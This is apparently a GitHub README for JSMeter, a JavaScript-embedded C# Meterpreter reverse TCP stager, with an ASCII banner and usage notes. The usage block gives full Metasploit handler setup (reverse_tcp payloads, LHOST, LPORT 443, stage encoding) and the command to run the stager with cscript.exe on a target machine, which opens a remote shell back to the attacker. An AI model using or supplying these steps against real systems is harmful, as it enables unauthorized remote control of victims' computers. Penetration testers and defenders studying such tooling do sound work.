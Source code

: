 ```
     ____. _________   _____          __                
    |    |/   _____/  /     \   _____/  |_  ___________ 
    |    |\_____  \  /  \ /  \_/ __ \   __\/ __ \_  __ \
/\__|    |/        \/    Y    \  ___/|  | \  ___/|  | \/
\________/_______  /\____|__  /\___  >__|  \___  >__|   
                 \/         \/     \/          \/       
```
### JavaScript Reversed TCP Meterpreter Stager - by Cn33liz 2017
CSharp Meterpreter Stager build by Cn33liz and embedded within JavaScript using DotNetToJScript from James Forshaw
Should work on x86 as well as x64

```
Usage:
Change RHOST and RPORT settings to suit your needs.

Start Msfconsole:
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp <- When run from x64 version of cscript.exe
set PAYLOAD windows/meterpreter/reverse_tcp <- When run from x86 version of cscript.exe
set LHOST 0.0.0.0
set LPORT 443
set EnableUnicodeEncoding true
set EnableStageEncoding true
set ExitOnSession false
exploit -j 

Then run: cscript.exe JSMeter.js on Target
```
